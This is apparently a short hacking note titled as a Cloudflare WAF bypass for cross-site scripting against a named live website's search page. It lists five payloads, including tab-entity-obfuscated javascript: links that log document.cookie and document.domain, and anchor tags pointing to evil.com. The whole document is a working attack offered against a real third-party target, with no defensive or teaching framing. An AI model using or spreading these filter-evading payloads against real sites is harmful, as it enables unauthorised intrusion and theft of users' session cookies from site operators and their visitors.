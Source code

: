                                  PART - II 

                   cloudflare waf bypass XSS | LIVE target 


Target
   |_
      https://www.wilmingtonbiz.com/search  


Payloads
   |_
      1.<a href="//evil.com">XSS</a> 

      2.<a href="j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t:console.log(1337)">XSS</a>

      3.<a href="j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t:console.log(document.cookie)">XSS</a>

      4.<a href="j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t:console.log(document.domain)">XSS</a>

      5.<A HREF="https://www.evil.com/">Click Here </A>
